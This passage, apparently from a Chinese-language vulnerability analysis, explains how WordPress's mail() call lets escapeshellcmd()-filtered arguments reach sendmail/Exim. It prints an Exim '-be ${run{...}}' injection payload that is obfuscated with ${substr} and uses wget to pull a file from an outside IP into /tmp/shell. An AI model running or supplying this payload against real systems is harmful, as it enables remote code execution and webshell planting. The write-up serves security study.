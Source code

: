  跟进mailPassthru()方法，由于没有开启安全模式，走的下面代码。

```bash
 $result = @mail($to, $subject, $body, $header, $params);
```

##### PHP对第五个参数的讲解：

`additional_params`参数可用于将附加标志作为命令行选项传递给配置为在发送邮件时使用的程序，

如`sendmail_path` 配置设置所定义的那样。

例如，当使用带有’`-f`’  `sendmail`选项的sendmail时，可以使用它来设置信封发送者地址。

该参数通过`escapeshellcmd()`在内部转义，以防止命令执行。

escapeshellcmd()阻止命令的执行，但是允许添加额外的参数。

出于安全考虑，建议用户对该参数进行消毒，以避免向shell命令添加不必要的参数。

![image-20241105125822802](https://image.201068.xyz/assets/11.Wordpress/image-20241105125822802.png)

![image-20241105125914693](https://image.201068.xyz/assets/11.Wordpress/image-20241105125914693.png)

因此上面提到的payload

```bash
target(any -froot@localhost -be ${run{$payload}} null)

#执行为

sendmail -t -i -f wordpress@target(any -froot@localhost -be ${run{$payload}} null)
```

因此下面

```bash
aa(any -froot@localhost -be ${run{${substr{0}{1}{$spool_directory}}usr${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}wget${substr{10}{1}{$tod_log}}--output-document${substr{10}{1}{$tod_log}}${substr{0}{1}{$spool_directory}}tmp${substr{0}{1}{$spool_directory}}shell${substr{10}{1}{$tod_log}}172.27.29.105${substr{0}{1}{$spool_directory}}1.txt}} null)

#执行为

sendmail -t -i -f wordpress@aa(any -froot@localhost -be ${run{${substr{0}{1}{$spool_directory}}usr${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}wget${substr{10}{1}{$tod_log}}--output-document${substr{10}{1}{$tod_log}}${substr{0}{1}{$spool_directory}}tmp${substr{0}{1}{$spool_directory}}shell${substr{10}{1}{$tod_log}}172.27.29.105${substr{0}{1}{$spool_directory}}1.txt}} null)
```
